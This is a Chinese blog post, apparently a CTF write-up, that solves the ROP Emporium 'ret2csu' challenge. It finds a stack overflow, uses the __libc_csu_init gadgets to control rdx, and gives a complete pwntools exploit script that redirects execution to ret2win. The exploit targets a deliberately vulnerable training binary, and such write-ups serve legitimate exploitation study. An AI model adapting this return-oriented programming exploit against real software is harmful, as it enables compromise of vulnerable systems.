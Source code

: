 ```yaml
---
title: ROP Emporium の ret2csu
date: 2020-06-15 17:00:29
categories:
- WriteUPs
- ROP Emprium
tags:
- PWN
- ROP
- Stack
---
```

## Introduction

[ROP Emporium](https://ropemporium.com)训练7：ret2csu的解析。

<!-- more -->

## ret2csu

### Step 1

程序运行图：

![](/img/ret2csu/ret2csu1.png)

checksec：

![](/img/ret2csu/ret2csu2.png)

根据提示，最终还是要调用ret2win函数，但是对相应寄存器有了一定限制。

### Step 2

把程序丢到hopper中发现pwnme函数中fgets函数存在溢出漏洞：

![](/img/ret2csu/ret2csu3.png)

根据提示我们是需要调用ret2win函数：

![](/img/ret2csu/ret2csu4.png)

并且提示我们需要将低3个参数即rdx寄存器的值置为0xdeadcafebabebeef，但是通过ROPgadget我们并没有找到可以控制rdx寄存器的gadgets：

![](/img/ret2csu/ret2csu5.png)

根据[ret2csu - 万能gadgets](https://coldwave96.github.io/2020/06/15/Useful-Gadgets/)我们可以选择利用万能gedgets实现传参：

![](/img/ret2csu/ret2csu6.png)

主要思路和easy_csu差不多，同样通过init_array_start函数的指针来跳过gadget2中的那条call指令。

### Step 3

EXP脚本如下：

```Python
* from pwn import *
* 
* sh = process('./ret2csu')
* elf = ELF('ret2csu')
* 
* gadget1 = 0x40089a
* gadget2 = 0x400880
* 
* init_addr = elf.symbols['__init_array_start']
* ret2win_addr = elf.symbols['ret2win']
* 
* payload = 'a' * (0x20 + 0x8)
* payload += p64(gadget1) + p64(0) + p64(1) + p64(init_addr) + p64(0) + p64(0)+ p64(0xdeadcafebabebeef)
* payload += p64(gadget2) + 'a' * 56
* payload += p64(ret2win_addr)
* 
* sh.recvuntil('>')
* sh.sendline(payload)
* 
* sh.interactive()
* sh.close()
```

EXP脚本运行结果：

![](/img/ret2csu/ret2csu7.png)

## End

至此ROP Emporium的8个训练全部结束，完结，撒花～～
